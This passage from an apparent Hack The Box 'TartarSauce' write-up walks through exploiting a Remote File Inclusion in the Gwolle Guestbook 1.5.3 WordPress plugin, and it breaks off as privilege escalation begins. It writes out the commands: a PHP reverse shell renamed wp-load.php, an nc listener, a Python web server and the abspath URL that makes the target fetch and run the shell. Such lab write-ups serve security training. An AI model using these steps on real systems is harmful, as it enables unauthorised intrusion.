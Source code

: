 Troll much? So we're actually looking at version 1.5.3, NOT 2.3.10. Let's check Exploit-DB for vulnerabilities in this version.

<a href="/assets/htb-tartarsauce/sspt_gwolle.png"><img src="/assets/htb-tartarsauce/sspt_gwolle.png" width="95%"></a>

Looks like there's an RFI known for 1.5.3!

### RFI in Gwolle Guestbook

According to the advisory, we can inject our own URL into `http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website`. We also need to place a file called `wp-load.php` in the root of our web server, which can easily just be a PHP reverse shell.

We can grab the included PHP shell in Kali and copy it to our working directory with `cp /usr/share/webshells/php/php-reverse-shell.php wp-load.php`. This will rename it to the needed `wp-load.php`. We can now edit the file to point to our machine and port. Once that's set, we need to start a listener with `nc -lvnp 7500`. We also need to start a Python web server in the directory where `wp-load.php` is located. Use `python -m SimpleHTTPServer 80` to open the web server on port 80.

Now we just need to navigate to `http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.12/`

> NOTE: Don't leave out the trailing `/` in the above command, or it will not work. It took me way too long to figure this out. Also, you can use `curl -s` like I did in the below example.

<a href="/assets/htb-tartarsauce/wwwdata_revshell.png"><img src="/assets/htb-tartarsauce/wwwdata_revshell.png" width="95%"></a>

---

## Privlege Escalation

### Enumerate as `www-data`

So now that we have a shell on the server, we can start enumeration for escalation.

![](/assets/htb-tartarsauce/wwwdata_os_enum.png)
